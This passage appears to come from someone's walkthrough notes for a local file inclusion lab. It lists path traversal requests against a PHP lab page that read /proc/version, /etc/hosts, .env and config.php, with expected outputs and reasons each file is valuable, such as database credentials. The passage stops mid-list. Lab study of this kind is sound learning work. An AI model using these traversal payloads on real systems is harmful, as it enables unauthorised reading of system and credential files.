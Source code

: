         GET /labs/fi0x01.php?filename=../../../../../proc/version HTTP/1.1
        Host: localhost
        
        ## Expected Output: Linux version 6.12.33+kali-amd64 (devel@kali.org) (x86_64-linux-gnu-gcc-14
        ##                  (Debian 14.2.0-19) 14.2.0, GNU ld (GNU Binutils for Debian) 2.44) #1 SMP 
        ##                  PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25)
        ```
        
    3. **/etc/hosts:**
        
        1. **Why**: **Maps hostnames to IPs, revealing internal network details.**
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../etc/hosts HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											127.0.0.1	localhost
        											::1	localhost ip6-localhost ip6-loopback
        											fe00::0	ip6-localnet
        											ff00::0	ip6-mcastprefix
        											ff02::1	ip6-allnodes
        											ff02::2	ip6-allrouters
        											172.18.0.3	8f6ad4d6e6ac
        ```
        
    4. **/var/www/html/.env:**
        
        1. Why: **Modern apps store sensitive data (e.g., DB_USER=admin,DB_PASS=secret) here.**
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../var/www/html/.env HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											
        ```
        
    5. **/var/www/html/config.php:**
        
        1. **Why**: **Common in PHP apps, often contains DB creds or flags in TCM labs.**
        
        ```Bash
        ## REQUEST
        